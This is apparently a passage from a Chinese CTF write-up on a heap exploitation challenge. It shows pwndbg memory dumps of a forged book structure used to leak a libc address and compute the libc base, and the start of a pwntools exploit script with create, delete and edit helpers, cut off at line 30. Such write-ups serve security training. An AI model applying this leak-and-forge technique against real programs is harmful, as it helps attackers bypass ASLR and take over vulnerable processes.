 看我们的description的地址，放到了libc里了，ok，接下来就是show他的时候了，但是，怎么show这个地址，我们看我们第一本书的name指针0x00005567bf82e020存的是我们的name的内容，所以我们可以伪造的book放地值为0x5567bf82e190，这样就可以了

```
0x5567bf82e130:	0x0000000000000001	0x00005567bf82e020
0x5567bf82e140:	0x00005567bf82e060	0x00000000000000c8
0x5567bf82e150:	0x0000000000000000	0x0000000000000021
0x5567bf82e160:	0x0000414141414141	0x0000000000000000
0x5567bf82e170:	0x0000000000000000	0x0000000000000031
0x5567bf82e180:	0x0000000000000002	0x00005567bf82e160
0x5567bf82e190:	0x00007f18a4045010	0x0000000000021000
0x5567bf82e1a0:	0x0000000000000000	0x0000000000020e61

```

于是我们就可以把description做成这样

```
pwndbg> x/100xg 0x00005567bf82e060
0x5567bf82e060:	0x3131313131313131	0x3131313131313131
0x5567bf82e070:	0x3131313131313131	0x3131313131313131
0x5567bf82e080:	0x3131313131313131	0x3131313131313131
0x5567bf82e090:	0x3131313131313131	0x3131313131313131
0x5567bf82e0a0:	0x3131313131313131	0x3131313131313131
0x5567bf82e0b0:	0x3131313131313131	0x3131313131313131
0x5567bf82e0c0:	0x3131313131313131	0x3131313131313131
0x5567bf82e0d0:	0x3131313131313131	0x3131313131313131
0x5567bf82e0e0:	0x3131313131313131	0x3131313131313131
0x5567bf82e0f0:	0x3131313131313131	0x3131313131313131
0x5567bf82e100:	0x0000000000000001	0x00005567bf82e190
0x5567bf82e110:	0x00005567bf82e190	0x00000000000000c8

```

在第0x5567bf82e100处，伪造，并且把地址写了进去，然后，打印出来libc距离他的地址的偏移手动算一下，然后就可以得到libc的真实的基址了

```python
  1 #coding:utf8
  2 from pwn import *
  3 
  4 #context.log_level = 'debug'
  5 def create(size,content,dsize,dcontent):
  6     p.sendline("1")
  7     log.info(p.recvuntil(":"))
  8     p.sendline(str(size))
  9     log.info(p.recvuntil(":"))
 10     p.sendline(content)
 11     log.info(p.recvuntil(":"))
 12     p.sendline(str(dsize))
 13     log.info(p.recvuntil(":"))
 14     p.sendline(dcontent)
 15     log.info(p.recvuntil(">"))
 16 
 17 def delete(index):
 18     p.sendline("2")
 19     log.info(p.recvuntil(":"))
 20     p.sendline(index)
 21     log.info(p.recvuntil(">"))
 22 
 23 
 24 def edit(index,content):
 25     p.sendline("3")
 26     log.info(p.recvuntil(":"))
 27     p.sendline(index)
 28     log.info(p.recvuntil(":"))
 29     p.sendline(content)
 30 
```